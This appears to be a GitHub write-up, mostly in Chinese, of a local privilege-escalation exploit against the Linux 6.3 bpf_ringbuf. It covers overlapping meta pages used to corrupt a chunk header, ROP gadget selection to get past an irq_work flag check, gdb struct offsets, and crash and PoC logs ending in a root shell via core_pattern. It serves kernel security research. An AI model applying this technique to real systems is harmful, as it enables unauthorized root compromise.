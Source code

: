 **kernel version using**    
6.3 commit `457391b0380335d5e9a5babdec90ac53928b23b4`   

- buf大小选择16K，nr_meta_pages = 4, 这样[0, 0x1000] 与 [0x4000, 0x5000]是同一个page, 0x4000指向了chunk A's hdr
分配出A - [0, 0x3000], B - [0x3008, 0x6000], 通过B's 0x4000可以修改A的hdr meta数据。

```
		if (i >= nr_meta_pages)
			pages[nr_data_pages + i] = page;
```


所有的rop必须在[_stext, _etext]之间，否则会触发NX错误：  
```
81.766165] kernel tried to execute NX-protected page - exploit attempt? (uid: 1000)
[   81.792896] BUG: unable to handle page fault for address: ffffffff8299a052
[   81.810767] #PF: supervisor instruction fetch in kernel mode
[   81.823853] #PF: error_code(0x0011) - permissions violation
ts[0[  ] 81:. 853,6 socket248] PGD 3c46067 P4D 3c46067 PUD 3c47063 PMD 80000000028001e1
[   81.851043] Oops: 0011 [#1] PREEMPT SMP PTI
```

stack pivot rop 未找到rsp设置成功后避开+0x20的rop，+0x20处是bpf_ringbuf.work.node.a_flags，此处设为0xffff时，没有触发bug，既无crash也未成功，设置为0xff22时，panic异常地址0xff22, 这说明最低位设为0x22可绕过:  
`irq_work_claim`有flag检查` if (oflags & IRQ_WORK_PENDING)`, 选择地址地末位是0x22的rop：`pop r13, pop r14, pop rbp, ret`

```
struct bpf_ringbuf {
    wait_queue_head_t waitq;
    struct irq_work work;
    u64 mask;
    struct page **pages;
    int nr_pages;
    spinlock_t spinlock ____cacheline_aligned_in_smp;
    atomic_t busy ____cacheline_aligned_in_smp;
    unsigned long consumer_pos __aligned(PAGE_SIZE);
    unsigned long producer_pos __aligned(PAGE_SIZE);
    char data[] __aligned(PAGE_SIZE);
};

(gdb) p/x (int)&(((struct bpf_ringbuf*)0)->work)
$2 = 0x18

(gdb) p/x (int)&(((struct bpf_ringbuf*)0)->work.func)
$3 = 0x28
(gdb) p/x (int)&(((struct bpf_ringbuf*)0)->work.node.a_flags)
$4 = 0x20

0x22 == CSD_TYPE_IRQ_WORK(0x20) | IRQ_WORK_BUSY (0x02);
IRQ_WORK_PENDING = 0x1
struct irq_work {
	struct __call_single_node node;
	void (*func)(struct irq_work *);
	struct rcuwait irqwait;
};

struct __call_single_node {
	struct llist_node	llist;
	union {
		unsigned int	u_flags;
		atomic_t	a_flags;
	};
#ifdef CONFIG_64BIT
	u16 src, dst;
#endif
};
```
*test:*   
```
$ ./poc
Hello World!
ringbuf after create map: 3
try to wait core
[   95.464768] BUG: scheduling while atomic: poc/354/0x00010002
[   95.478632] Modules linked in:

progfd: 4
sock[   95.486469] Preemption disabled at:
[   95.486474] [<ffffffff81310e23>] irq_work_queue+0x23/0x50
ets[0]: 5, socke[   95.508029] CPU: 1 PID: 354 Comm: poc Not tainted 6.3.0 #93
[   95.526632] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.16.3-debian-1.16.3-2 04/01/2014
t[1]: 6
[   95.599172] Call Trace:
[   95.677927] ------------[ cut here ]------------
[   95.683175] Voluntary context switch within RCU read-side critical section!
[   95.683816] WARNING: CPU: 1 PID: 354 at kernel/rcu/tree_plugin.h:318 rcu_note_context_switch+0x62c/0x690
[   95.713178] Modules linked in:
[   95.718262] CPU: 1 PID: 354 Comm: poc Tainted: G        W          6.3.0 #93
[   95.735521] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.16.3-debian-1.16.3-2 04/01/2014
[   95.752900] RIP: 0010:rcu_note_context_switch+0x62c/0x690
[   95.762138] Code: 00 00 00 00 0f 85 0d fd ff ff 49 89 8c 24 a0 00 00 00 e9 00 fd ff ff 48 c7 c7 a8 24 27 83 c6 05 75 08 ce 02 01 e8 a4 82 f6 ff <0f> 0b e9 3b fa ff ff 49 83 bc 24 98 00 00 00 00 49 8b 84 24 a0 00
[   95.793147] RSP: 0018:ffffc900009adf40 EFLAGS: 00010086
[   95.801582] RAX: 0000000000000000 RBX: ffff88813bcb3700 RCX: 0000000000000000
[   95.814821] RDX: 0000000000000003 RSI: 0000000000000027 RDI: 00000000ffffffff
[   95.828898] RBP: 0000000000000000 R08: 00000000ffffdfff R09: 0000000000000001
[   95.840645] R10: 00000000ffffdfff R11: ffffffff83c7afa0 R12: ffff88813bcb2880
[   95.854500] R13: ffff888102acb240 R14: 0000000000000000 R15: 0000000000000000
[   95.871507] FS:  0000000000da2380(0000) GS:ffff88813bc80000(0000) knlGS:0000000000000000
[   95.890278] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   95.901485] CR2: 00000000004b9000 CR3: 0000000102a02000 CR4: 0000000000050ee0
[   95.918447] Call Trace:
[   95.925747] ---[ end trace 0000000000000000 ]---
[   96.027876] poc[355]: segfault at 0 ip 000000000040248d sp 00007ffc781827d0 error 6 in poc[401000+89000] likely on CPU 1 (core 1, socket 0)
[   96.075993] Code: df e8 97 fb 01 00 ba 10 00 00 00 4c 89 ee 48 89 ef e8 47 ec ff ff 85 c0 0f 85 4f ff ff ff 48 8d 3d d6 7b 08 00 e8 03 46 00 00 <48> c7 04 25 00 00 00 00 00 00 00 00 0f 0b 0f 1f 44 00 00 f3 0f 1e
check core: /proc/sys/kernel/core_pattern
Root shell !!
FLAG{test-by-hxqu}
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@wintermute:/#
root@wintermute:/# whoami
root
```



when sweep consumer and producer,  as userspace to be the producer, and this time more memory can mapped to userspace

